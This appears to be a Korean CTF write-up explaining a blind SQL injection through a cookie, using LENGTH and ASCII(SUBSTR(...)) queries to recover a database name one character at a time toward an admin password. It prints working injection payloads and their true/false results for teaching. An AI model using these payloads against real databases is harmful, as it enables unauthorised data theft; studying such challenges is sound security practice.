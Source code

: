 ~~~sql
----------------
~~~
__*Note*__: SELECT문에서 사용할 수 있습니다. SHOW문에서는 사용할 수 없습니다.

### Database
본 문제를 해결하기 위해서는 Database 구조에 관한 이해가 필요합니다. 포스트 [Database와 MySQL](https://terada-dante.github.io/database_mysql/)를 참고하시길 바랍니다.   

## 풀이
우리의 목표는 `admin.php`의 password에 접근하는 것입니다. 그러기 위해서 가장 먼저 Database의 이름을 알아내야 합니다. 그러면 Cookie injection으로 다음과 같이 쿼리(Query)를 보내면 될까요?
~~~sql
SHOW DATABASES;
-- 현재 사용중인 데이터베이스 확인
~~~

**아닙니다.** Blind SQL injection에서 서버는 오직 SQL 문의 결과가 참인지 거짓인지만 알려줄 것입니다. 

따라서 우리는 다음과 같이 Query문을 작성할 수 있습니다.
~~~sql
LENGTH((SELECT DATABASE())) > 0;
-- database의 이름이 1글자 이상인가?
~~~
__*Note*__: 괄호의 개수에 주의

놀랍게도, 그리고 당연하게도, 주석은
`2070-01-01 09:00:01(true)`를 반환할 것입니다. 계속해서 다음과 같은 쿼리를 통해,
~~~sql
LENGTH((SELECT DATABASE())) > 1; --true
LENGTH((SELECT DATABASE())) > 2; --true 
LENGTH((SELECT DATABASE())) > 3; --true
LENGTH((SELECT DATABASE())) > 4; --true
LENGTH((SELECT DATABASE())) > 5; --true
LENGTH((SELECT DATABASE())) > 6; --false
LENGTH((SELECT DATABASE())) = 6; --true
~~~
__*Note*__: 이러한 반복적인 과정을 `Python`으로 Program화 할 수 있습니다.
![2_4](https://i.imgur.com/Zd60213.png)

Database의 이름이 6글자라는 사실이 확인되었습니다. 이름의 길이를 알아냈다면 이제 이름을 알아낼 차례입니다. 여기서 다음과 같은 로직(logic)을 생각할 수 있습니다.

> 6글자의 데이터 베이스의 이름이 있다.<br>
> LENGTH((SELECT DATABASE())) = 6;
>> 이름의 1번 째 문자가 "a" 인가?<br>
>> SUBSTR((SELECT DATABASE()),1,1) = "a";
>>> 이름의 1번 째 문자가 ASCII(97) 인가?<br>
>>> ASCII(SUBSTR((SELECT DATABASE()),1,1)) = 97;
>>>> 이름의 1번 째 문자가의 아스키코드 값이 97보다 큰가?<br>
>>>> ASCII(SUBSTR((SELECT DATABASE()),1,1)) > 97; 

위 방법은 이름의 각 문자에 대하여 `일치/불일치(true/false)`여부를 확인하여 이름을 알아내는 방법입니다. 최종적인 로직을 모아 확인하면 다음과 같습니다.
~~~sql
ASCII(SUBSTR((SELECT DATABASE()),1,1)) = 99;     
-- c
ASCII(SUBSTR((SELECT DATABASE()),2,1)) = 104;    
-- h
ASCII(SUBSTR((SELECT DATABASE()),3,1)) = 97;     
-- a
ASCII(SUBSTR((SELECT DATABASE()),4,1)) = 108;    
-- l
ASCII(SUBSTR((SELECT DATABASE()),5,1)) = 108;    
-- l
ASCII(SUBSTR((SELECT DATABASE()),6,1)) = 50;     
-- 2

~~~